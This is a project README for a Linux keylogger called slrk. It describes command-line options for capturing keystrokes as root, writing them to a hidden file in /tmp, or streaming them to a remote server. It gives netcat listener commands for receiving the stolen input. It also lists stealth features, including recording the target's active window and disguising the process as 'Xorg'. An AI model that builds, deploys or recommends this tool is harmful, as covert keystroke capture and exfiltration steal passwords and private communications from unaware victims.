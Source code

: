 # Simple_Local&Remote_Keylogger

DESCRIPTION:<br>

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE:<br><br>
---It works with both TCP and UDP---<br><br>
[TCP]<br>
Server$ nc -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br><br>
[UDP] <br>
Server$ nc -u -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br><br>
---It works with ipv6 too--- <br><br>
Server$ nc -6 -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a ::1 -p 8888
__________________________________________________________________________
<br>(It shows the active window on which the target is writing)
<br>(Keys are mapped on English keyboard)
<br>(It shows the keyboard layout (e.g.: us, it, colemak, etc..))  
(Process name is renamed as "Xorg")
